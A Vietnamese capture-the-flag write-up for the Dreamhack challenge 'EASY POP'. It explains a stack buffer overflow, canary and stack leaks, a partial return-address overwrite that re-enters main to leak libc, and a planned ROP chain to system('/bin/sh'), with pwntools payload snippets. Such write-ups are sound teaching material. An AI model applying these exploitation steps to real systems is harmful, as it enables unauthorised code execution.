# Challenge: EASY POP
### Platform : Dreamhack
### Difficulty: Gold 4
## **Kiểm tra thông tin cơ bản và cơ chế bảo vệ**


## **Phân tích**
Giờ chúng ta sẽ đưa file vào ghidra để phân tích, khá may mắn là file chưa bị strip
```C
void initialize(void)

{
  long lVar1;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

undefined8 main(void)
{
  long in_FS_OFFSET;
  int local_bc;
  long buf[20];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  initialize();
  for(int i = 0;i< 20;i++) buf[i] = 0;
  puts("This is simple ROP challenge");
  for (local_bc = 0; local_bc < 2; local_bc += 1) {
    puts("OMG BOF");
    read(0,buf,0xba);
    printf("Here is your leak: %s\n",(char *)buf);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}


```
Code cũng không có gì khó hiểu, cơ bản là chúng ta được phép ghi 2 lần, mỗi lần 0xba byte vào buf. Cũng dễ thấy kích thước cũng buf là 20*8 = 0xa0 nếu tính cả canary thì nó là 0xb0, trong ghi ta có thể ghi 0xba. Rõ ràng đây là lỗi tràn bộ đệm trên stack, và chúng ta có thể ghi vượt ra ngoài 0xba - 0xb0 = 0xa = 12 byte, khá phù hợp với kỹ thuật ROP, giờ chúng ta cùng tìm hiểu xem có thực hiện được nó không

Trong đó gồm : 8 byte của save_rbp và 2 byte cuối của return_address. Giờ mình sẽ vào gdb xem xung quanh thanh ghi rbp gồm những thông tin gì. Ta sẽ đặt break tại puts("OMG BOF") để quan sát

```bash

   main <+243>:   jmp    0x558ed70da397 <main+322>
   main <+245>:   lea    rax,[rip+0xcd0]    # "OMG BOF"
   main <+252>:   mov    rdi,rax
   main <+255>:   call   0x558ed70da090 <puts@plt>
   main <+260>:   lea    rax,[rbp-0xb0]

```


Giờ xem xung quanh $rbp xem có gì không



Ta thấy rằng có địa chỉ stack,canary và đặc biệt điều chúng ta quan tâm là địa chỉ libc tại địa chỉ 0x7fff1a3fb608



Như đã nói ở trên, mục tiêu của chúng ta là dùng ROP điều đó đồng nghĩa với việc ta phải leak ra được địa chỉ libc. Nhưng hãy cùng nhìn vào đoạn code 
```C
for(int i = 0;i< 20;i++) buf[i] = 0;
```
0xa8 byte đầu đã bị gắn là 0, vùng xung quanh mà chúng ta có thể đọc có địa chỉ stack,canary,libc. Nhưng để thực hiện ROP thì ta phải đọc được canary trước đã, sẽ tốn một vòng lặp.
```python
    p = process('./prob_patched')
    p.sendlineafter(b'OMG BOF\n',b'a'*0xa8)
    p.recvuntil(b'a\n');
    canary = u64(b'\x00' + p.recv(7))
    stack_leak = u64(p.recv(6)+b'\x00'*2)
    print(f"canary_leak = {hex(canary)} , stack_leak = {hex(stack_leak)}")
```
Khi chạy ta sẽ đọc đc địa chỉ stack save_rbp và canary



Có thể hơi khác khi debug vì file đã bật PIE và ASLR, giờ ta đã tốn một vòng lặp để đọc canary nhưng chưa leak đc  địa chỉ libc nào nên ta vẫn chưa thể thực hiện ROP, nhưng ta có thể ghi đè 2 byte cuối của return_address, cái khó ở đâu là ghi đè 2 byte nào. 

Sau một hồi nghiên cứu tôi phát hiện rằng :

 

Tại địa chỉ 0x7fff1a3fb6a8 là một địa chỉ libc, nhưng nó khá đặc biệt, cùng kiểm tra



__libc_start_main_impl là hàm khởi tạo môi trường trước khi gọi hàm main(), giờ hãy đọc hàm này từ vị trí +139



Nếu thỏa mãn điều kiện thì nó sẽ nhảy tới +107



Thật bất ngờ nó gọi lại hàm libc_main và sau đó sẽ gọi lại hàm main một lần nữa, chúng ta sẽ có thêm 2 lần ghi và đọc. Ta quan sát từ +139 tới khi nhảy đến +107, thì các thanh ghi rbp,r14,r15,... được sử dụng và ta chỉ quan tâm tới thanh ghi rbp, vì cơ bản các thanh còn lại vẫn không thay đổi (bạn có thể debug để xem). Phía trên nó là lệnh call libc_main nên return_address sẽ là __libc_start_main_impl + 139 và save_rbp bên cạnh nó, phù hợp với việc chúng ta quan sát. 



Tại 0x7fff1a3fb6a8 là __libc_start_main_impl + 139, nên bên cạnh nó 0x7fff1a3fb6a0 là địa chỉ save_rbp_impl ta cần tìm. Giờ chúng ta sẽ tắt ASLR để xem sau khi nhảy vào hàm main lần 2 sẽ như thế nào. Dễ dàng tính đc save_rbp_impl từ save_rbp đã đc leak ở trên, tắt ASRL khiến 2 byte cuối của libc_base là 0 nên ta sẽ ghi đề 0xa28b để nhảy tới __libc_start_main_impl + 139.



Vậy chúng ta có thể leak đc địa chỉ libc tại rbp+0x08, tức sẽ ghi 0xb8 dữ liệu
```python
    p = process('./prob_patched')
    gdb.attach(p,'''
        b *main+255
        c
        ''')
    p.sendlineafter(b'OMG BOF\n',b'a'*0xa8)
    p.recvuntil(b'a\n');
    canary = u64(b'\x00' + p.recv(7))
    stack_leak = u64(p.recv(6)+b'\x00'*2)
    print(f"canary_leak = {hex(canary)} , stack_leak = {hex(stack_leak)}")
    payload = b'a'*0xa8 + p64(canary) + p64(stack_leak +0x60) +b'\x8b\xa2'
    p.sendafter(b'OMG BOF\n',payload)
    p.sendafter(b'OMG BOF\n',b'a'*0xb8)
    p.recvuntil(b'a'*0xb8)
    leak_libc = u64(p.recv(6) + b'\x00'*2)
    print(f"leak_libc = {hex(leak_libc)}")
```


check thấy đúng là địa chỉ libc, giờ ta đã có địa chỉ stack, libc, canary ta gần như đã giải quyết được toàn bộ bài toán. Ý tưởng cơ bản là chuẩn bị ROP gồm "pop rdi ; ret" , địa chỉ "/bin/sh\x00" , địa chỉ hàm system, vì mình có địa chỉ stack nên vòng lặp còn lại ta sẽ ghi đè sao cho return_address là "leave ; ret", nhờ đó ta có thể thao túng địa chỉ vùng nhớ trên stack sao cho "pop rip" tức "ret" trỏ đúng ROP mà chúng ta đã chuẩn bị, đó là kịch bản đẹp.

Nhưng chờ đã, lúc nãy tôi đã nói là tắt ASLR đúng không, giờ ta sẽ bật lên, do cơ chế căn chỉnh nên libc_base sẽ chia hết cho 0x1000. Như lúc nãy ta đã nói, chúng ta ghi đè 2 byte nhưng chỉ có 1 byte cuối sẽ cố định và 1 byte kia sẽ là ngẫu nhiên. Và tôi đã bruce force 1 byte cuối vì đã bí ý tưởng nhưng nó đã thành công lấy được cờ. Cơ bản 1 byte nên chạy tầm 16 gần như đã lấy đc cờ nên bạn không đen :)))



# Note
Sau khi tham khảo write up của người khác, tôi phát hiện là chỉ ghi đè 1 byte là \xb0 vào return_address thì nó cũng quay lại hàm main mà không cần chơi xác suất :)) , vẫn tốt hơn là không giải đc :))